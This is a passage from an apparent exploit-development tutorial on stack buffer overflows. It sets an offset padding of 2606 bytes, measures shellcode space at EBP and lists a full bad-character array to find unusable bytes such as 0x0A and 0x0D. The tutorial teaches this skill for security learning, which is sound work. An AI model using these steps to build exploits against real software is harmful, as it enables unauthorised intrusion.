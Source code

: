 Lets change the bufer:

```
buffer = 'A'*2606 + 'BBBB' + 'C'*600
```

launch the new exploit and check the EBP and the length of the usefull shellcode

![](<../.gitbook/assets/image (31) (1).png>)

![](<../.gitbook/assets/image (32) (1).png>)

You can see that when the vulnerability is reached, the EBP is pointing to the shellcode and that we have a lot of space to locate a shellcode here.

In this case we have **from 0x0209A128 to 0x0209A2D6 = 430B.** Enough.

## Check for bad chars

Change again the buffer:

```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
buffer = 'A'*2606 + 'BBBB' + badchars
```

The badchars starts in 0x01 because 0x00 is almost always bad.

Execute repeatedly the exploit with this new buffer delenting the chars that are found to be useless:.

For example:

In this case you can see that **you shouldn't use the char 0x0A** (nothing is saved in memory since the char 0x09).

![](<../.gitbook/assets/image (33) (1).png>)

In this case you can see that **the char 0x0D is avoided**:
